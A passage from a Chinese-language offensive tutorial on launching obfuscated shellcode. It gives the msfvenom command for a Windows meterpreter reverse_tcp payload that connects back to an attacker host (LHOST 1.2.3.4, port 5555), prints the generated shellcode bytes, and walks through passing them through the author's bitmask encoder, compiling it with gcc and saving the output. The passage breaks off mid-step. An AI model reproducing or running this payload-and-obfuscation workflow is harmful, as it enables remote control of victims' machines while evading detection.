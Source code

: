 <br>

**四、开始工作**

我们先介绍一下如何使用MSFVENOM生成一段简单的载荷。你需要根据实际情况修改以下命令中的LPORT和LHOST参数值：

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=5555 -f c
```

输出结果如下所示，我标粗了其中的IP数据，以便读者替换为自己的IP（可以使用[IP/Hex Converter](http://ncalculators.com/digital-computation/ip-address-hex-decimal-binary.htm)这个工具）。

```
“xfcxe8x82x00x00x00x60x89xe5x31xc0x64x8bx50x30”
“x8bx52x0cx8bx52x14x8bx72x28x0fxb7x4ax26x31xff”
“xacx3cx61x7cx02x2cx20xc1xcfx0dx01xc7xe2xf2x52”
“x57x8bx52x10x8bx4ax3cx8bx4cx11x78xe3x48x01xd1”
“x51x8bx59x20x01xd3x8bx49x18xe3x3ax49x8bx34x8b”
“x01xd6x31xffxacxc1xcfx0dx01xc7x38xe0x75xf6x03”
“x7dxf8x3bx7dx24x75xe4x58x8bx58x24x01xd3x66x8b”
“x0cx4bx8bx58x1cx01xd3x8bx04x8bx01xd0x89x44x24”
“x24x5bx5bx61x59x5ax51xffxe0x5fx5fx5ax8bx12xeb”
“x8dx5dx68x33x32x00x00x68x77x73x32x5fx54x68x4c”
“x77x26x07xffxd5xb8x90x01x00x00x29xc4x54x50x68”
“x29x80x6bx00xffxd5x6ax05x68x01x02x03x04x68x02″
“x00x15xb3x89xe6x50x50x50x50x40x50x40x50x68xea”
“x0fxdfxe0xffxd5x97x6ax10x56x57x68x99xa5x74x61”
“xffxd5x85xc0x74x0axffx4ex08x75xecxe8x61x00x00”
“x00x6ax00x6ax04x56x57x68x02xd9xc8x5fxffxd5x83”
“xf8x00x7ex36x8bx36x6ax40x68x00x10x00x00x56x6a”
“x00x68x58xa4x53xe5xffxd5x93x53x6ax00x56x53x57”
“x68x02xd9xc8x5fxffxd5x83xf8x00x7dx22x58x68x00”
“x40x00x00x6ax00x50x68x0bx2fx0fx30xffxd5x57x68”
“x75x6ex4dx61xffxd5x5ex5exffx0cx24xe9x71xffxff”
“xffx01xc3x29xc6x75xc7xc3xbbxf0xb5xa2x56x6ax00”
“x53xffxd5”;
```

在我的[混淆器](https://github.com/ApertureSecurity/Assembly-Series/blob/master/LazyBitmaskEncoder.c)中，将“SHELLCODE GOES HERE”这段替换为上述数据。使用如下gcc命令编译混淆器源码：

```
Gcc -std=c11 LazyBitmaskEncoder.c -o encoder.exe
```

将程序的输出结果导出到文件中：

```
encoder.exe &gt; somefile.txt
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh2.png)

在本文案例中，我有个值为31的额外字节，程序的警告信息提示我应该将它转化为经过异或处理的Nop指令（即7E），如下所示：
